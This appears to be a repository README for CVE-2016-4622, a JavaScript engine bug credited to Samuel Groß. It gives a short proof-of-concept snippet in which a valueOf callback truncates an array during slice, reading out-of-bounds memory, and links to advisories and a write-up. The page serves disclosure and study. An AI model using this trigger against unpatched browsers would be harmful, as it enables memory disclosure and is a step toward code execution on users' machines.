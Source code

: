 # CVE-2016-4622

- Report: April 2016
- Fix: July 2016
- Credit: Samuel Groß

## PoC

```javascript
var a = [];
for (var i = 0; i < 100; i++)
    a.push(i + 0.123);

var b = a.slice(0, {valueOf: function() { a.length = 0; return 10; }});
// b = [0.123,1.123,2.12199579146e-313,0,0,0,0,0,0,0]
```

## Reference

- [ZDI](http://www.zerodayinitiative.com/advisories/ZDI-16-485/)
- [Apple](https://support.apple.com/en-us/HT206900)
- [Write Up](http://www.phrack.org/papers/attacking_javascript_engines.html)
